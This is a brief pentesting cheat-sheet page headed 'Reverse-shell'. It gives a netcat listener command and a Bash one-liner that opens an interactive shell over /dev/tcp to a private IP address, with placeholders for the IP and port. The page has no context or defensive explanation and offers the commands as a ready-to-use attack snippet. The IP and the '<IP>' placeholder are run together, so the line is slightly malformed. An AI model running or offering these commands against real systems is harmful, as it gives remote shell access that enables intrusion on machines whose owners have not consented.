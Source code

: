 ```yaml
---
description: nc -lvp <PORT>
---
```


# Reverse-shell

### Bash

```
bash -i >& /dev/tcp/192.168.119.164<IP>/<PORT> 0>&1
```
